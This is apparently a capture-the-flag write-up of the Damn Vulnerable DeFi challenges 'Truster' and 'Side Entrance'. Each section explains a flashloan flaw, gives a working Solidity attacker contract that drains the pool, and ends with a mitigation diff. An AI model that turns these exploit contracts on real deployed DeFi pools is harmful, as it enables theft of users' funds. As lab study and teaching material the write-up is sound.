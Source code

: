 # 3 - Truster

## **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```
## **Mitigation:**
Consider changing target parameter to be an interface that execute operations and than repay limiting the user from calling arbitrary contracts.

```diff
- function flashLoan(uint256 borrowAmount, address target, bytes calldata data) external {
+ function flashLoan(uint256 borrowAmount, IFlashLoanBorrower target, bytes calldata data) external {
```


<br><br>

# 4 - Side Entrance

## **Problem:**

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## **Solution:**
The pool is designed to allow `deposit`, `withdraw`, and `flashLoan` functions. The `flashLoan` function checks that the borrower has repayed by comparing contract's balance before and after the loan.
The problem is that the IFlashLoanEtherReceiver we pass can repay correctly by sending eth to the contract but it can also send them by using the `deposit` function incrementing our balance using borrowed funds.
We can then withdraw all the funds from the pool and send them to the recovery account.

### **Code:**
```javascript
contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address recovery;

    constructor(SideEntranceLenderPool _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(1000e18);

        // after attack withdraw all ETH from pool
        pool.withdraw();
        SafeTransferLib.safeTransferETH(recovery, 1000e18);
    }

    function execute() external payable override {
        pool.deposit{value: 1000e18}();
    }

    receive() external payable {
    }
}
```

## **Mitigation:**
Consider using a lock mechanism to prevent user to call deposit during a flashloan.

```diff
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
+   lockdeposit = true;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    ...

+   lockdeposit = false;
}
```
<br>

```diff
    function deposit() external payable {
+       require(!lockdeposit, "Deposit not allowed during flashloan");
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```
